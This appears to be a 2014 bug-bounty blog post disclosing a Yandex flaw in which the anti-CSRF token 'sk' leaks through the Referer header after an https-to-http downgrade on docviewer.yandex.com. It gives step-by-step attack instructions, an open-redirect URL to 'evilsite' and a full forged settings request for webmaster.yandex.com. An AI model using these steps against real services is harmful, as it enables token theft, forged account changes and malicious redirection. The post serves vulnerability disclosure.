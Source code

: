 ```yaml
---
title: Bypass anti CSRF token of Yandex!
date: 2014-05-07 00:00:00 +02:00
categories:
- Info Leakage
- CSRF
layout: post
excerpt: When you browse a link in docviewer.yandex.com, The site will recreate a
  token named `sk`, which is used to validate a redirection and anti-csrf token `sk`
  is also an anti-csrf token on  {% highlight text %} http://webmaster.yandex.ru`,.....
comments: true
---
```


When you browse a link in docviewer.yandex.com, The site will recreate a token named sk, which is used to validate a redirection and anti-csrf token. sk is also an anti-CSRF token on `http://webmaster.yandex.ru, https://docviewer.yandex.com/r.xml`. now If the attacker knows the value of your sk token, he can make a redirection and CSRF attack. How to know the token of the victim ???. Because `http://docviewer.yandex.com/r.xml?sk=thecsrftokenofvictim&url=evilsite` useD GET request, the params are showed in URL and it also changeable to https to HTTP. as a result, you can use REFERER HEADER to get the token.


### HACK STEPS 
 * Upload a document with link or a hyperlink. that hyperlink is the attacker's site..
 * Select the file, Share the link using the share button then get the link
 * Browse that link, Then click the view button you will redirect to docviewer.yandex.com
 * Change the https to http to allow us to see the referer in our site.
 {% highlight text %} 
https://docviewer.yandex.com/?url=ya-disk-public://nhP6POxtEi4v9wDffRyOFHbGQgIOhlsEbLhl3zH9c7k%3D&name=testxxx.odt to http://docviewer.yandex.com/?url=ya-disk-public://nhP6POxtEi4v9wDffRyOFHbGQgIOhlsEbLhl3zH9c7k%3D&name=testxxx.odt
{% endhighlight %}
* Send the url to victim and induce him to click the link for attacker'site to able to leak the anti-CSRF token.

 now you have his `sk` token! that is the bypass!

 **for redirection**
 {% highlight text %} 
 https://docviewer.yandex.com/r.xml?sk=thecsrftokenofvictim&url=evilsite
 {% endhighlight %}

**for csrf** → 
{% highlight text %}
http://webmaster.yandex.com/settings/messages/types.xml?email_1=EMAIL&email_2=EMAIL&message_3=MESSAGE&email_3=EMAIL&message_4=MESSAGE&percent=50&message_5=MESSAGE&message_6=MESSAGE&message_7=MESSAGE&message_8=MESSAGE&email_8=EMAIL&message_9=MESSAGE&message_10=MESSAGE&message_12=MESSAGE&message_17=MESSAGE&message_18=MESSAGE&message_19=MESSAGE&email_19=EMAIL&message_21=MESSAGE&email_21=EMAIL&message_22=MESSAGE&email_22=EMAIL&message_32=MESSAGE&do=save&sk=TOKENOFVICTIM
{% endhighlight %}

**This is wide CSRF attack which affect other Yandex domain.**

### list of affected Yandex domain

* http://appmetrica.yandex.com/
* https://calendar.yandex.ru
* https://disk.yandex.com/
* docviewer.yandex.com
* m.contact.yandex.com.tr & etc

*NOTE: i used javascript code to get the leaked csrf token on refrerer header and append it to my CSRF PoC.*

